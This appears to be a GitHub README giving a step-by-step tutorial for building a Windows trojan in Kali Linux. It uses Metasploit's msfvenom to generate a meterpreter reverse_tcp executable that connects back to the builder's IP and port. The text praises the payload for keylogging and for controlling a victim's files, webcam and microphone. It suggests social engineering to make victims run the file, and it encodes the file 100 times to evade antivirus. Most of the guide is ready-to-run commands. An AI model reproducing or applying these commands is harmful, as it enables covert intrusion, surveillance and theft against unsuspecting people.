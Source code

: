 # Trojan-virus-using-kali
Creating TROJAN Virus in Kali linux 

 Depending on the tools we use, we can have access to our victim’s files and system processes, including the ability to record keystrokes or take a screenshot through their webcam. 

Step 1: Update and Upgrade Kali Linux
we should be periodically updating Kali Linux. If you haven’t upgraded in a while or you just booted it up, now is a good time to update.

Enter following command to update your kali

sudo apt-get update

Next tipe in:

sudo apt-get upgrade
This should update your system to the most recent version, ensuring that all the tools will work exactly as they should. Now we can begin.

Step 2: Open exploit software
In this article, we will be using the metasploit framework. Metasploit is a software that comes pre-installed on all Kali Linux machines that allows you to create custom payloads that will link back to your computer from the victim’s computer. In this case, the payload is our RAT. Using metasploit, a hacker can create a payload, save it to a file, and trick some unsuspecting user into clicking on it through social engineering.

Now open the terminal and write : 

msfvenom
This will show a list of commands available to you in metasploit.
AND
To see available payloads, type: 

msfvenom -l payloads

This will list all available payloads for you to use. As you can see, there are a lot of them. If you want to see other options, you can type in any of the other options listed on screen. You can see options like formatting, platforms, encoders (which will be discussed later in this article), encryption keys, bad characters, and many others.

Step 2.5: Fix any errors
If you are getting error like Invalid option try following commands

Cd /root

To fix this, change the current directory (file) to usr/share/metasploit-framework by typing in:

cd /usr/share/metasploit-framework/

from the root directory. If you make a mistake, you can type in
cd . . 
Now that we are in the metasploit-framework directory, type in
gem install bundler
to install bundler, then type in
bundle install
If bundler is not the correct version, you should get a message telling you which version to install (in this case it was 1.17.3). Type in
gem install bundler:[version number]
and then type in
gem update –system
Then we type:
Cd /root
To go back to the directory.
Step 3: Choose our payload
Type in
msfvenom -l payloads
to see a list of payloads.
We recommend using windows/meterpreter/reverse_tcp. It allows you to keylog, sniff for data, and control the infected computer’s file system, microphone, and webcam. It is one of the most versatile, invasive, and devastating payloads in metasploit.
Step 4: Customize our payload
Now that we have our payload, we can check what options we have. Type:                                          msfvenom –list-options -p [payload]
We see that LHOST is blank; this is where the exploit sends information from the infected device. In most cases, this will be your ip address.

To find your ip address, type
ifconfig

Our ip address is our LHOST parameter.

Step 5: Generate the trojan
Now that we have our payload, ip address, and port number, we have all the information that we need. Type :

msfvenom -p [payload] LHOST=[your ip address] LPORT=[the port number] -f [file type] > [path]
If you get the error like permission denied try this: 

Use sudo (if you have root privileges): If you have sudo privileges, you can try to run the command with sudo to grant the necessary permissions, type:

sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > trojan

2) Change the directory to one where you have write permissions: If you don't want to use sudo or don't have the necessary privileges, change to a directory where you have write permissions, such as your home directory, type:

cd ~
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > trojan

3) Set the correct permissions on the target directory: You can also change the permissions of the directory to allow writing. For example, if you want to write to /path/to/directory type:
 
chmod u+w /path/to/directory
cd /path/to/directory
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > trojan

4) Check for restrictive umask settings: Ensure that your umask settings are not too restrictive. You can check your current umask with, type:

umask

A common umask value is 0022. If it is too restrictive, you can temporarily set it to a less restrictive value:

umask 0022
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > trojan

And still if you are getting permission denied like above then go for this:

Check File Creation with Redirection (>): Sometimes, the permission denied error might be due to the redirection itself. Try creating a simple file with redirection to see if the problem persists type:

echo "test" > testfile

If you get a permission denied error here as well, it confirms that the issue is with file creation permissions.

Use tee for Output Redirection: You can use tee to write the output to a file, which might bypass some permission issues type:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe | sudo tee trojan > /dev/null

Check Directory Permissions: Ensure that the directory you're trying to write to has the correct permissions type:
ls -ld $(pwd)
Create File in /tmp Directory: The /tmp directory is usually writable by all users. Try creating the file there,type: 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -f exe > /tmp/trojan

Verify Disk Space: Ensure that there is enough disk space available on the device,type:
df -h
Check for File System Issues: Sometimes file system issues can cause permission errors. Check for file system integrity,type:
dmesg | grep -i error
If none of these steps resolve the issue, you might need to check for system-wide policies or restrictions that might be preventing file creation in certain directories or with certain permissions.
Step 6: Encrypt the trojan
Since windows/meterpreter/reverse_tcp is a common exploit, many antivirus programs will detect it. However, we can encrypt the program so that an antivirus can’t catch it. Included with metasploit is a long list of encryptors. Type:

msfvenom -l

Once you choose the encryption you want (we recommend x86/shikata_ga_nai), you can encrypt it multiple times when you type in the command to make the exploit. Encrypting the file multiple times helps prevent antivirus programs from catching your virus. Type in:

umask 0022
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.247.128 LPORT=4444 -e x86/shikata_ga_nai -i 100 -f exe > encryptedtrojan.exe

